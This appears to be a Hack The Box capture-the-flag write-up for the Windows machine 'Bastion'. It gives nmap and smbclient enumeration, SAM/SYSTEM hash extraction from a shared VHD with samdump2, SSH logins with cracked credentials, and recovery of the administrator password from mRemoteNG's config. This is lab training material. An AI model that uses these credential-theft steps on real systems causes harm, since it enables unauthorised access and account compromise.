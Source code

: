 # 🧪 Bastion – Hack The Box

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP Address:** 10.10.10.134  
**Date Completed:** [Insert Date]  

---

## 🧭 Overview

Bastion is an Easy-rated Windows machine that contains a Virtual Hard Disk (VHD) file shared via SMB. By mounting and inspecting this disk, user hashes can be extracted from the SAM and SYSTEM files. Once cracked, valid user credentials provide SSH access to the system. Privilege escalation is then achieved by exploiting mRemoteNG’s insecure password storage, allowing retrieval of administrator credentials.

---

## 🔍 Enumeration

### 🔎 Nmap

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.134
nmap -p22,135,139,445 -sC -sV -T4 10.10.10.134
```

### 📁 SMB Share

```bash
smbclient -N -L //10.10.10.134
smbclient -N //10.10.10.134/Backups
```

Discovered a VHD file within the `Backups` share.

---

## 🪜 Foothold

- Mount or extract the VHD file using 7-Zip
- Navigate to: `Windows/System32/config`
- Extract `SAM` and `SYSTEM` hives
- Crack NTLM hash using `samdump2` and online services

```bash
samdump2 SYSTEM SAM > hashes.txt
```

- Cracked credentials:  
  `l4mpje : bureaulampje`

### 🔑 SSH Access

```bash
ssh l4mpje@10.10.10.134
# password: bureaulampje
```

📄 `user.txt`  
`681cf1f0************************`

---

## ⚙️ Privilege Escalation

- Enumerated installed software: `mRemoteNG`
- Version: 1.76.11 (vulnerable)
- Locate config:  
  `C:\Users\l4mpje\AppData\Roaming\mRemoteNG\confCons.xml`

- Download config:
```bash
scp l4mpje@10.10.10.134:/users/l4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
```

- Import into mRemoteNG on attacker machine
- Create external tool to echo password:
```cmd
cmd /k echo "password %password%"
```

- Retrieved password:  
  `thXLHM96BeKL0ER2`

### 🧑‍💼 Administrator Access

```bash
ssh Administrator@10.10.10.134
# password: thXLHM96BeKL0ER2
```

📄 `root.txt`  
`5feb8575************************`

---

## 🧠 Lessons Learned

- VHD files shared over SMB may contain sensitive disk backups
- SAM and SYSTEM hives are valuable targets for local password hashes
- Legacy apps like mRemoteNG often store credentials insecurely
- Always enumerate installed software for weak config or credential leaks

---

## 📸 Proof

![bastion.png](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/bastion.png)
